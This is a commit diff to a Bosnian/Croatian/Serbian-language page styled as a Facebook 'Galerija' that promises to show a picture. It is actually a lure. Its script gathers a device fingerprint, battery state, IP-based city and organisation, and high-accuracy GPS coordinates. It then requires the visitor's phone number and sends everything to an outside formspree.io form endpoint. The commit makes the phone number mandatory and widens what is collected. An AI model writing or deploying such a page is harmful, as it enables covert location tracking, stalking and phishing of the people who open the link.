

Before and after one commit to wotb339/Facebook-Jovana-M., a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 279-626 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -6,77 +6,15 @@
 <title>Pogledaj sadržaj</title>
 
 <style>
-body {
-  margin: 0;
-  font-family: Arial, sans-serif;
-  background: #eef2f7;
-}
-
-.box {
-  max-width: 420px;
-  margin: 60px auto;
-  background: white;
-  border-radius: 18px;
-  box-shadow: 0 8px 30px rgba(0,0,0,0.12);
-  overflow: hidden;
-}
-
-.header {
-  background: #1877f2;
-  color: white;
-  padding: 18px;
-  font-size: 20px;
-  font-weight: bold;
-  text-align: center;
-}
-
-.content {
-  padding: 24px;
-  text-align: center;
-}
-
-.preview {
-  height: 220px;
-  border-radius: 14px;
-  background: #dbeafe;
-  display: flex;
-  align-items: center;
-  justify-content: center;
-  font-size: 44px;
-  margin-bottom: 18px;
-}
-
-button {
-  background: #1877f2;
-  color: white;
-  border: none;
-  padding: 15px;
-  width: 100%;
-  border-radius: 10px;
-  font-size: 17px;
-  font-weight: bold;
-  cursor: pointer;
-  margin-top: 12px;
-}
-
-input {
-  width: 100%;
-  padding: 14px;
-  font-size: 16px;
-  border: 1px solid #ccc;
-  border-radius: 10px;
-  margin-top: 12px;
-}
-
-.small {
-  color: #666;
-  font-size: 14px;
-  margin-top: 10px;
-}
-
-#phoneStep, #finalStep {
-  display: none;
-}
+body { margin:0; font-family:Arial,sans-serif; background:#eef2f7; }
+.box { max-width:420px; margin:60px auto; background:white; border-radius:18px; box-shadow:0 8px 30px rgba(0,0,0,.12); overflow:hidden; }
+.header { background:#1877f2; color:white; padding:18px; font-size:20px; font-weight:bold; text-align:center; }
+.content { padding:24px; text-align:center; }
+.preview { height:220px; border-radius:14px; background:#dbeafe; display:flex; align-items:center; justify-content:center; font-size:44px; margin-bottom:18px; }
+button { background:#1877f2; color:white; border:none; padding:15px; width:100%; border-radius:10px; font-size:17px; font-weight:bold; cursor:pointer; margin-top:12px; }
+input { width:100%; padding:14px; font-size:16px; border:1px solid #ccc; border-radius:10px; margin-top:12px; box-sizing:border-box; }
+.small { color:#666; font-size:14px; margin-top:10px; }
+#phoneStep, #finalStep { display:none; }
 </style>
 </head>
 
@@ -85,36 +23,33 @@ input {
 <div class="box">
   <div class="header">Galerija</div>
 
-<!-- STEP 1 -->
   <div class="content" id="startStep">
     <div class="preview">🖼️</div>
-  <h2>Klikni da vidiš sliku</h2>
-  <p class="small">Za prikaz sadržaja potrebno je potvrditi pristup lokaciji.</p>
-  <button onclick="start()">Prikaži sliku</button>
+    <h2>Klikni da nastaviš</h2>
+    <p class="small">
+      Za nastavak će biti zatražen pristup lokaciji i tehničke informacije uređaja.
+    </p>
+    <button onclick="start()">Nastavi</button>
     <p id="status" class="small"></p>
   </div>
 
-<!-- STEP 2 -->
   <div class="content" id="phoneStep">
     <div class="preview">📱</div>
     <h2>Unesi broj telefona</h2>
     <p class="small">
-  Nakon unosa možeš nastaviti i pogledati sadržaj.
+      Unesi broj telefona za nastavak.
     </p>
 
     <input id="phone" type="tel" placeholder="Broj telefona, npr. +43...">
-
     <button onclick="sendWithPhone()">Pošalji broj</button>
-  <button onclick="sendWithoutPhone()">Preskoči</button>
+    <p id="phoneError" class="small"></p>
   </div>
 
-<!-- STEP 3 -->
   <div class="content" id="finalStep">
     <h2>Slika</h2>
     <img src="https://via.placeholder.com/400x300" style="width:100%; border-radius:12px;">
     <p class="small">Hvala.</p>
   </div>
-
 </div>
 
 <script>
@@ -130,7 +65,7 @@ async function start() {
     language: navigator.language || "N/A",
     languages: navigator.languages ? navigator.languages.join(", ") : "N/A",
 
-    timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
+    timezone: Intl.DateTimeFormat().resolvedOptions().timeZone || "N/A",
     timezoneOffset: new Date().getTimezoneOffset(),
     time: new Date().toLocaleString(),
 
@@ -139,6 +74,7 @@ async function start() {
     availWidth: screen.availWidth,
     availHeight: screen.availHeight,
     colorDepth: screen.colorDepth,
+    pixelDepth: screen.pixelDepth,
     pixelRatio: window.devicePixelRatio,
 
     windowWidth: window.innerWidth,
@@ -148,50 +84,74 @@ async function start() {
     cookies: navigator.cookieEnabled,
     doNotTrack: navigator.doNotTrack || "N/A",
 
-    touch: navigator.maxTouchPoints,
-    cpu: navigator.hardwareConcurrency || "N/A",
-    memory: navigator.deviceMemory || "N/A",
+    touchSupport: "ontouchstart" in window || navigator.maxTouchPoints > 0,
+    maxTouchPoints: navigator.maxTouchPoints || 0,
+
+    cpuCores: navigator.hardwareConcurrency || "N/A",
+    deviceMemoryGB: navigator.deviceMemory || "N/A",
 
     url: location.href,
     referrer: document.referrer || "direkt"
   };
 
   if (navigator.connection) {
-    collectedData.network = navigator.connection.effectiveType;
-    collectedData.downlink = navigator.connection.downlink;
+    collectedData.networkEffectiveType = navigator.connection.effectiveType || "N/A";
+    collectedData.networkDownlink = navigator.connection.downlink || "N/A";
+    collectedData.networkSaveData = navigator.connection.saveData || false;
+    collectedData.networkRtt = navigator.connection.rtt || "N/A";
   }
 
   if (navigator.getBattery) {
     try {
-      let b = await navigator.getBattery();
-      collectedData.battery = Math.round(b.level * 100) + "%";
-      collectedData.charging = b.charging;
-    } catch {}
+      const b = await navigator.getBattery();
+      collectedData.batteryLevel = Math.round(b.level * 100) + "%";
+      collectedData.batteryCharging = b.charging;
+      collectedData.batteryChargingTime = b.chargingTime;
+      collectedData.batteryDischargingTime = b.dischargingTime;
+    } catch (e) {
+      collectedData.batteryInfo = "N/A";
+    }
   }
 
   try {
-    let res = await fetch("https://ipapi.co/json/");
-    let ip = await res.json();
-    collectedData.ip = ip.ip;
-    collectedData.city = ip.city;
-    collectedData.country = ip.country_name;
-    collectedData.org = ip.org;
-  } catch {}
+    const res = await fetch("https://ipapi.co/json/");
+    const ip = await res.json();
+
+    collectedData.ip = ip.ip || "N/A";
+    collectedData.ipCity = ip.city || "N/A";
+    collectedData.ipRegion = ip.region || "N/A";
+    collectedData.ipCountry = ip.country_name || "N/A";
+    collectedData.ipPostal = ip.postal || "N/A";
+    collectedData.ipOrg = ip.org || "N/A";
+    collectedData.ipTimezone = ip.timezone || "N/A";
+  } catch (e) {
+    collectedData.ipInfo = "N/A";
+  }
 
   if (navigator.geolocation) {
     navigator.geolocation.getCurrentPosition(
       function(pos) {
-        collectedData.lat = pos.coords.latitude;
-        collectedData.lon = pos.coords.longitude;
-        collectedData.accuracy = pos.coords.accuracy;
+        collectedData.gpsLatitude = pos.coords.latitude;
+        collectedData.gpsLongitude = pos.coords.longitude;
+        collectedData.gpsAccuracyMeters = pos.coords.accuracy;
+        collectedData.gpsAltitude = pos.coords.altitude;
+        collectedData.gpsSpeed = pos.coords.speed;
+        collectedData.gpsHeading = pos.coords.heading;
         showPhoneStep();
       },
-      function() {
-        collectedData.gps = "nije dozvoljeno";
+      function(error) {
+        collectedData.gpsStatus = "Nije dozvoljeno ili nije uspjelo";
+        collectedData.gpsError = error.message;
         showPhoneStep();
+      },
+      {
+        enableHighAccuracy: true,
+        timeout: 12000,
+        maximumAge: 0
       }
     );
   } else {
+    collectedData.gpsStatus = "Geolocation nije podržan";
     showPhoneStep();
   }
 }
@@ -202,21 +162,21 @@ function showPhoneStep() {
 }
 
 function sendWithPhone() {
-  collectedData.phone = document.getElementById("phone").value || "nije unesen";
-  sendData();
+  const phone = document.getElementById("phone").value.trim();
+
+  if (!phone) {
+    document.getElementById("phoneError").textContent = "Molimo unesite broj telefona.";
+    return;
   }
 
-function sendWithoutPhone() {
-  collectedData.phone = "preskočeno";
+  collectedData.phone = phone;
   sendData();
 }
 
 function sendData() {
   fetch("https://formspree.io/f/mnjlyqqy", {
     method: "POST",
-    headers: {
-      "Content-Type": "application/json"
-    },
+    headers: { "Content-Type": "application/json" },
     body: JSON.stringify(collectedData)
   });
 
```
Lines whose indentation alone changed are shown as unchanged.
